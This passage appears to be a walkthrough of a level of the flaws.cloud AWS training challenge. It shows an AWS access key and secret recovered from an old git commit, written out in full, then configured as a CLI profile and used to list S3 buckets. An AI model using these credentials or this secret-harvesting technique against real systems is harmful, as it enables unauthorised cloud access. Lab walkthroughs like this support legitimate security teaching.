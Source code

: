 Then you can look at what a git repo looked like at the time of a commit by running: 
```
└─$ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
```
where `f7cebc46b471ca9838a0bdd1074bb498a3f84c87` would be the hash for the commit shown in `git log`.
```
M       index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental changes and commit them, and you can discard any commits you make in this state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may do so (now or later) by using -c with the switch command.
Example:
  git switch -c <new-branch-name>

Or undo this operation with:
  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit
                                      
```

```
└─$ cat access_keys.txt
```
```
access_key AKIAJ366LIPB4IJKT7SA
secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys
```
We should have found the AWS key and secret. 

We can configure your aws command to use it and create a profile for it using: 
```
└─$ aws configure --profile sike  
```
```
AWS Access Key ID [None]: AKIAJ366LIPB4IJKT7SA
AWS Secret Access Key [None]: OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys
Default region name [None]: 
Default output format [None]: 
```

Then to list S3 buckets using that profile run: 
```
└─$ aws s3 ls --profile sike
```
```
2017-02-13 03:01:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 22:04:53 config-bucket-975426262029
2017-02-13 01:33:24 flaws-logs
2017-02-05 09:10:07 flaws.cloud
2017-02-24 07:24:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 23:45:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 23:46:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-27 01:14:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-27 01:17:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-27 01:36:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```
